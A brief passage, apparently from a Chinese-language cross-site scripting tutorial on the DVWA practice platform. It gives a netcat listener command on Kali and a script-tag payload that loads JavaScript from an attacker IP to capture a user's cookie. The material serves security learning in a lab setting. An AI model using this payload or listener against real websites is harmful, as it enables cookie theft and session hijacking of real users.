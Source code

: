 <img src="image/6.png" />

在kali中使用`nc -vnlp 88`进行监听，在DVWA平台进行测试此行代码，可获取到用户cookie

```js
<script src='http://10.0.2.6/xxsec.js'></script>
```
